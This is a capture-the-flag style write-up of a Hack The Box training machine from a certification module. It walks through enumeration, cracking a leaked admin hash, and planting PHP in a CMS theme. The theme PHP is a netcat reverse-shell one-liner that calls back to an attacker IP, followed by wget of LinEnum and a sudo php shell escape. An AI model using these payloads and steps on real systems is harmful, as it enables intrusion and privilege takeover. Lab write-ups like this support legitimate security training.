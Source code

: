 ## Introduction
This is not an official HTB machine but the final part of the Getting Started Module in CPTS Study Path

## Service Scanning
Using nmap -v -sV HOST_IP, we discover there are two opening services
![[Pasted image 20241227152802.png]]


- The HTTP service is Apache httpd 2.4.41, which is the same result with whatweb
Checking on the robots.txt, we see that it has an admin directory which is a login panel
![[Pasted image 20241227153214.png]]

A simple gobuster directory bruteforcing has led to multiple hidden directories, since we know what /admin is and what /theme might be, we check on backups and data first.
The /data directory has an interesting users.xml file
![[Pasted image 20241227154554.png]]
We see that the username is admin and there's a PWD hash in SHA-1. SHA-1 can't be cracked but can be looked up, which is also admin
![[Pasted image 20241227154943.png]]

In the admin panel, we found that the site runs a CMS that is vulnerable to RCE
![[Pasted image 20241227162249.png]]

Usually, we can use the files tab to upload a malicious file but the button wasnt working. Poking around some more, we find out that we can edit the theme with whatever php we want.
![[Pasted image 20241227162534.png]]

Therefore, a reverse shell would prove useful:
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.69 4242 >/tmp/f"); ?>


After gaining access, we try to spin up a TTY with either Python/Python3, whichever is available:
![[Pasted image 20241227170908.png]]

Getting the flag:
![[Pasted image 20241227171059.png]]

## Privilege Escalation
![[Pasted image 20241227171441.png]]
Downloading the LinEnum.sh file and start a Python server.

Running the LinEnum.sh on the Remote (we get it by running wget PYTHON_SERVER_IP:PORT/LinEnum.sh), it says that we can spawn a shell in the usr/bin/php folder using the sudo command. 
### Note
the sudo pwnage is a part of the linux privilege escalation course, this was a taken from another write up

![[Pasted image 20241227174821.png]]

Run the command 
![[Pasted image 20241227175028.png]]
There are two ways, we can set a variable and run like this
www-data@gettingstarted:/usr/bin$ CMD="/bin/sh"  
www-data@gettingstarted:/usr/bin$ sudo /usr/bin/php -r "system('$CMD');"

Or directly run the command

![[Pasted image 20241227175500.png]]

### Important
cd ~/ bring us directly to the user directory


